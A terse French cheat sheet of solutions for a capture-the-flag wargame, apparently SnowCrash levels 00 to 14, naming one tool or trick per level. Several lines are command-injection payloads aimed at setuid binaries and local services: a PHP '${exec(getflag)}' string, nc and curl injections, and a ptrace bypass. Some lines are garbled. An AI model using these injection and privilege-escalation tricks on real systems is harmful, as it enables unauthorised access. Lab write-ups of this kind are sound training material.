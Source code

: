 ## Memento

### Level00:

Code cesar

### Leve01:

John the Ripper

### Level02:

wireshark

### Level03:

echo

### Level04:

Injection de code avec curl 'ip:4747ltra'?x


### Level05:

cron

### Level06:

Injection de code '[x ${${exec(getflag)}}]' >/tmp/coucou
./level06 /tmp/coucou

### Level07:

export LOGNAME

### Level08:

t0ken

### Level09:

aaaa -> abcd 
python decode.py $(cat token)

### Level10

server.py & liens symboliques

### Level11

nc $(getflag) |wall

### Level12:

'getflag | wall' > /tmp/GETFLAG
curl '127.0.0.1:4646?x=$(/*/GETFLAG)'

### Level13:

gdb getuid()

### Level14

suppression de ptrace (bypassing ptrace)
idem Level13
